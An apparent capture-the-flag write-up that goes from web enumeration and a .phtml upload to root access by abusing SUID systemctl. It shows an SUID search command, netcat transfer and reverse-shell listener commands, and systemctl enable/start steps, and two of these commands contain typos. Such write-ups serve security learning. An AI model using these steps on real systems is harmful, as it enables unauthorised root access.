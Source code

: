 writeup

`nmap`  didn't show anything usefull
`gobuster` reveiled an /internal/ path, which allowed file upload.

permitted file: .phtml

scan for SUID files (Files that can run as root, without being root)
`find / -user root -perm -4000 -exec ls -ldb {} \;`

$ `/bin/systemctl` 

## Next 
Google for systemctl GTFObin 
https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740

follow the instructions

setup listener in tmp dir
`nc -vl 44444 > root.service`

create local `root.service` file, and paste the exploit.
Project the exploit over netcat

`nc -n <targetip> 44444 < root.service`

Setup local netcat listner to receive shell

`nc -lnvp 9999`

Run the local root.service
note: Path is not set, so systemctl won't run by just calling it `systemctl` or `./systemctl`, the full path must be specified 
`/bin/systemctl enable /tmp/root.servce`
This will create the systemctl symlinks for a root shell

Next, launch the exploit and receive root shell on your local NC
`/bin/sytemctl start root`

That's it
